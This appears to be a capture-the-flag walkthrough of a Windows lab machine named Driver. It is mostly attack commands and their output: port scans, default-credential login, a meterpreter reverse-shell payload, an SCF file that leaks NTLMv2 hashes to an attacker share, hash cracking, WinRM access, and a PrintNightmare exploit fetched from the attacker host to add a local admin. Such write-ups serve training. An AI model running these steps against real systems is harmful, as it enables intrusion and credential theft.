

## Port Scan
1. All TCP port scan
```sh
sudo nmap -Pn 10.129.95.238 -sS -p- --min-rate 20000 -oN nmap/allTcpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-05 21:53 EST
Nmap scan report for 10.129.95.238
Host is up (0.33s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 9.77 seconds
```
- Probably not a DC
2. All UDP Scan
```sh
sudo nmap -Pn 10.129.95.238 -sU -p- --min-rate 20000 -oN nmap/allUdpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-05 21:53 EST
Nmap scan report for 10.129.95.238
Host is up.
All 65535 scanned ports on 10.129.95.238 are in ignored states.
Not shown: 65535 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 8.55 seconds
```
3. All script and version scan
```sh
sudo nmap -Pn 10.129.95.238 -sCV -p80,135,445,5985 --min-rate 20000 -oN nmap/scriptVersionScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-05 21:55 EST
Nmap scan report for 10.129.95.238
Host is up (0.083s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2026-02-06T09:55:39
|_  start_date: 2026-02-06T09:47:21

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.24 seconds
```
## Uncredentialed Enumeration
1. SMB
```
smbclient -N -L \\\\10.129.95.238  
session setup failed: NT_STATUS_ACCESS_DENIED
smbclient -U "guest" -L \\\\10.129.95.238 
Password for [WORKGROUP\guest]:
session setup failed: NT_STATUS_ACCOUNT_DISABLED
```
2. RPC
```
rpcclient -N -U "" 10.129.95.238                          
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```
## Web Application Research
1. We need credentials to log into the website. It is using PHP
```HTTP
HTTP/1.1 401 Unauthorized
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.3.25
WWW-Authenticate: Basic realm="MFP Firmware Update Center. Please enter password for admin"
Date: Fri, 06 Feb 2026 10:03:21 GMT
Content-Length: 20

Invalid Credentials
```
2. Directory fuzzing
```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.95.238/FUZZ -ic -o root_dir_fuzz.txt
```
Output:
```
images                  [Status: 301, Size: 151, Words: 9, Lines: 2, Duration: 95ms]
                        [Status: 200, Size: 4279, Words: 523, Lines: 185, Duration: 108ms]
Images                  [Status: 301, Size: 151, Words: 9, Lines: 2, Duration: 64ms]
IMAGES                  [Status: 301, Size: 151, Words: 9, Lines: 2, Duration: 71ms]  
``` 
3. Ok the default creds: `admin:admin` worked (https://h30434.www3.hp.com/t5/Printer-Setup-Software-Drivers/HP-Color-LaserJet-Pro-MFP-3301fdw-Setup-Troubleshooting-Menu/td-p/9168066)
4. There is a file upload capability here `http://10.129.95.238/fw_up.php`. I wonder what happens if we drop an `.exe` file
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.35 LPORT=9999 -f exe > backupscript.exe
```

```
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.16.35
set LPORT 9999
run -j
```
5. Ok, I kinda cheated a bit. The clue is that the file will be uploaded in a file share.
	
6. We can upload SCF files which can be used to load `.ico` files. These files will cause the computers to reach out to the attacker host to retrieve these icons.
Create the `.ico` file
```
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
Run responder in the background
```
sudo responder -I tun0 -dvw
```
Upload the file to the server
Output after a few minutes:
```
[SMB] NTLMv2-SSP Client   : 10.129.95.238
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:cb5f4019683146d2:653A6DFBC4CECEE806B3FDFCFBF5F2A9:0101000000000000802D14621197DC01CA906FDCD45C59070000000002000800530059003700490001001E00570049004E002D0047004E0058005800450037005A00410059004100370004003400570049004E002D0047004E0058005800450037005A0041005900410037002E0053005900370049002E004C004F00430041004C000300140053005900370049002E004C004F00430041004C000500140053005900370049002E004C004F00430041004C0007000800802D14621197DC010600040002000000080030003000000000000000000000000020000009AEC0C3EEC49E372445FABB3AA9448407666E8E5D151A7A55F1FDA458DCC5300A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E0033003500000000000000000000000000
```
7. Let me try to crack the hash
```
hashcat -a 0 -m 5600 hash /usr/share/wordlists/rockyou.txt
```
Output:
```
TONY::DRIVER:cb5f4019683146d2:653a6dfbc4cecee806b3fdfcfbf5f2a9:0101<SNIP>000:liltony
```
## Credentialed Enumeration
1. SMB
```sh
netexec smb 10.129.95.238 -u "tony" -p 'liltony'
netexec smb 10.129.95.238 -u "DRIVER\\tony" -p 'liltony' --local-auth
```
- Did not work for some reason
```sh
smbclient -U "DRIVER\\tony" -L \\\\10.129.95.238
```
Output:
```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
```
- None of the shares are accessible.
2. RPC
```
rpcclient -U "DRIVER\\tony" 10.129.95.238
```
Output:
```
Password for [DRIVER\tony]:
rpcclient $> 
```
- We are able to login.
3. Some RPC Info
Users info
```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[DefaultAccount] rid:[0x1f7]
user:[Guest] rid:[0x1f5]
user:[tony] rid:[0x3eb]
```
Server info
```
rpcclient $> srvinfo
        10.129.95.238  Wk Sv NT             
        platform_id     :       500
        os version      :       10.0
        server type     :       0x1003
```
Groups info
```
rpcclient $> enumdomgroups
group:[None] rid:[0x201]
```
Domain info
```
rpcclient $> querydominfo
Domain:         DRIVER
Server:
Comment:
Total Users:    3
Total Groups:   1
Total Aliases:  0
Sequence No:    55
Force Logoff:   -1
Domain Server State:    0x1
Server Role:    ROLE_DOMAIN_PDC
Unknown 3:      0x1
```
Password Info
```
rpcclient $> getdompwinfo
min_password_length: 0
password_properties: 0x00000000
```
4. WinRM/ Powershell Remoting. We can get a shell with winrm
```
evil-winrm -i 10.129.95.238 -u "DRIVER\\tony" 
```
Output:
```
*Evil-WinRM* PS C:\Users\tony\Documents>
```
## Shell as Tony
1. Privileges
```
*Evil-WinRM* PS C:\Users\tony\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== =======
SeShutdownPrivilege           Shut down the system                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Enabled
SeTimeZonePrivilege           Change the time zone                 Enabled
```
2. Group information
```
*Evil-WinRM* PS C:\Users\tony\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```
3. User info
```
net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
tony
The command completed with one or more errors.
```
4. Listening ports
```
*Evil-WinRM* PS C:\Users\tony\Desktop> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID                                                                
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4                                                                  
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       708
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49408          0.0.0.0:0              LISTENING       456
  TCP    0.0.0.0:49409          0.0.0.0:0              LISTENING       864
  TCP    0.0.0.0:49410          0.0.0.0:0              LISTENING       808
  TCP    0.0.0.0:49411          0.0.0.0:0              LISTENING       1196
  TCP    0.0.0.0:49412          0.0.0.0:0              LISTENING       564
  TCP    0.0.0.0:49413          0.0.0.0:0              LISTENING       572
  TCP    10.129.95.238:139      0.0.0.0:0              LISTENING       4
  TCP    10.129.95.238:5985     10.10.16.35:50314      TIME_WAIT       0
  TCP    10.129.95.238:5985     10.10.16.35:51216      TIME_WAIT       0
  TCP    10.129.95.238:5985     10.10.16.35:51228      ESTABLISHED     4
  TCP    10.129.95.238:5985     10.10.16.35:55038      TIME_WAIT       0
  TCP    10.129.95.238:5985     10.10.16.35:59274      TIME_WAIT       0
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       708
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49408             [::]:0                 LISTENING       456
  TCP    [::]:49409             [::]:0                 LISTENING       864
  TCP    [::]:49410             [::]:0                 LISTENING       808
  TCP    [::]:49411             [::]:0                 LISTENING       1196
  TCP    [::]:49412             [::]:0                 LISTENING       564
  TCP    [::]:49413             [::]:0                 LISTENING       572
  UDP    0.0.0.0:5353           *:*                                    1100
  UDP    0.0.0.0:5355           *:*                                    1100
  UDP    10.129.95.238:137      *:*                                    4
  UDP    10.129.95.238:138      *:*                                    4
  UDP    10.129.95.238:1900     *:*                                    884
  UDP    10.129.95.238:49309    *:*                                    884
  UDP    127.0.0.1:1900         *:*                                    884
  UDP    127.0.0.1:49310        *:*                                    884
  UDP    [::]:5353              *:*                                    1100
  UDP    [::]:5355              *:*                                    1100
  UDP    [::1]:1900             *:*                                    884
  UDP    [::1]:49308            *:*                                    884
  UDP    [fe80::d04a:480a:9dff:ec1e%5]:1900  *:*                                    884
  UDP    [fe80::d04a:480a:9dff:ec1e%5]:49307  *:*                                    884
```
5. Since this machine is called `Printer` and the version of Windows is old, I decided to try PrintNightmare. I will use this [POC](https://github.com/calebstewart/CVE-2021-1675)
```powershell
curl http://10.10.16.35:8000/CVE-2021-1675.ps1 -OutFile CVE-2021-1675.ps1
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "hacker" -NewPassword "Password123!" -DriverName "PrintIt"
```
Output:
```
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user hacker as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```
To confirm,
```
net users
```
Output:
```
User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
hacker                   tony
The command completed with one or more errors.
```
6. We can use this account to login via WinRM
```
evil-winrm -i 10.129.95.238 -u 'hacker' -p 'Password123!'
```
To verify we are local admin,
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= =======
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Enabled
SeSecurityPrivilege             Manage auditing and security log          Enabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Enabled
SeLoadDriverPrivilege           Load and unload device drivers            Enabled
SeSystemProfilePrivilege        Profile system performance                Enabled
SeSystemtimePrivilege           Change the system time                    Enabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled
SeCreatePagefilePrivilege       Create a pagefile                         Enabled
SeBackupPrivilege               Back up files and directories             Enabled
SeRestorePrivilege              Restore files and directories             Enabled
SeShutdownPrivilege             Shut down the system                      Enabled
SeDebugPrivilege                Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Enabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Enabled
SeUndockPrivilege               Remove computer from docking station      Enabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled
SeTimeZonePrivilege             Change the time zone                      Enabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```
- Yep we are
